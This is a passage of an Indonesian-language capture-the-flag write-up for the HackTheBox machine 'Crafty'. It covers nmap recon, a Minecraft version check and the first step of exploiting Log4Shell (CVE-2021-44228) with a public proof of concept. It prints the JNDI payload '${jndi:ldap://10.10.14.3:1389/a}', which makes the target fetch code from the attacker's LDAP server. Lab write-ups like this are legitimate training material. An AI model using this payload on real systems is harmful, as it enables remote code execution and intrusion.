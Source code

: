 ```yaml
---
title: HackTheBox - Crafty
date: 2024-02-15 14:22:00 +0700
categories:
  - HackTheBox
  - Machines
tags:
  - easy
---
```

![Desktop View](/assets/img/hackthebox/machines/easy/crafty/Crafty.png)
## Recon
### Nmap 
```bash
# Nmap 7.94 scan initiated Sun Feb 11 06:33:40 2024 as: nmap -p- -sCV -T4 -oN nmapall.txt 10.10.11.249
Nmap scan report for crafty.htb (10.10.11.249)
Host is up (0.24s latency).
Not shown: 65533 filtered tcp ports (no-response)
PORT      STATE SERVICE   VERSION
80/tcp    open  http      Microsoft IIS httpd 10.0
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/10.0
|_http-title: Crafty - Official Website
25565/tcp open  minecraft Minecraft 1.16.5 (Protocol: 127, Message: Crafty Server, Users: 1/100)
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sun Feb 11 06:43:57 2024 -- 1 IP address (1 host up) scanned in 617.33 seconds
```
Dapat dilihat kalau port `25565/tcp` adalah server minecraft

### Browser
![Desktop View](/assets/img/hackthebox/machines/easy/crafty/crafty1.png)
Nah, itu kan ada server minecraft, coba kita cek [disini](https://mcstatus.io/status/java/play.crafty.htb).
![](/assets/img/hackthebox/machines/easy/crafty/crafty2.png)
Untuk cek versinya saya pakai [ini](https://github.com/OwenCochell/mctools).
```bash
❯ python mcli.py 10.10.11.249:25565 ping
+========================================================================+
# Pinging Minecraft server @ 10.10.11.249:25565 and retrieving stats ...
# Retrieved stats! Response time: 281.18150199998126 milliseconds
# Statistics:

[description]: Crafty Server
[players]:
   [max]: 100
   [online]: 1
   [sample]:
      [0]:
         [0]: kz
         [1]: 7df8cac7-c8c0-3926-8d2b-478fc886ce8e
   [message]: 
[version]:
   [name]: 1.16.5
   [protocol]: 754
[time]: 281.18150199998126
```
### Exploit
Ternyata versi minecraft yang digunakan 1.16.5, coba cari CVE/exploitnya. Dari web [ini](https://nodecraft.com/blog/service-updates/minecraft-java-edition-security-vulnerability) dapat disimpulkan vuln/kerentanannya adalah log4j. Coba tuh cari exploitnya, setelah mencari dan saya menemukan [ini](https://github.com/kozmer/log4j-shell-poc), git clone ke mesinmu. Untuk menjalankan exploitnya kita memerlukan jdk-8u20 akan tetapi disini saya download yang [jdk-8u181](https://packages.baidu.com/app/jdk-8/), ekstrak dan akan muncul direktori jdk1.8.0_181, dan untuk menjalankan exploitnya kita ubah namanya dari jdk1.8.0_181 -> jdk1.8.0_20.
## Shell into svc-minecraft
Coba jalankan exploitnya
```bash
=== Terminal 1 ===

❯ python3 poc.py --userip 10.10.14.3 --webport 9002 --lport 9001

[!] CVE: CVE-2021-44228
[!] Github repo: https://github.com/kozmer/log4j-shell-poc

[+] Exploit java class created success
[+] Setting up LDAP server

[+] Send me: ${jndi:ldap://10.10.14.3:1389/a}
[+] Starting Webserver on port 9002 http://0.0.0.0:9002

Listening on 0.0.0.0:1389
```
Disitu kita harus mengirim `${jndi:ldap://10.10.14.3:1389/a}` ke server minecraftnya. Tapi kan saya gak punya minecraft, apalagi java. Tenang disini ada 2 opsi pilihan, bisa pakai tlauncher atau [pycraft](https://github.com/ammaraskar/pyCraft). Untuk kali ini saya pakai yang pycraft, jika menjalankannya ada kendala dengan python, coba pakai venv
```bash
=== Terminal 2 ===

❯ python -m venv venv
❯ source venv/bin/activate
❯ pip install -r requirements.txt
❯ python start.py
Enter your username: kz
Enter your password (leave blank for offline mode): 
Enter server host or host:port (enclose IPv6 addresses in square brackets): 10.10.11.249
Connecting in offline mode...
Connected
${jndi:ldap://10.10.14.3:1389/a} <- kirim disini


=== Terminal 3 ===


```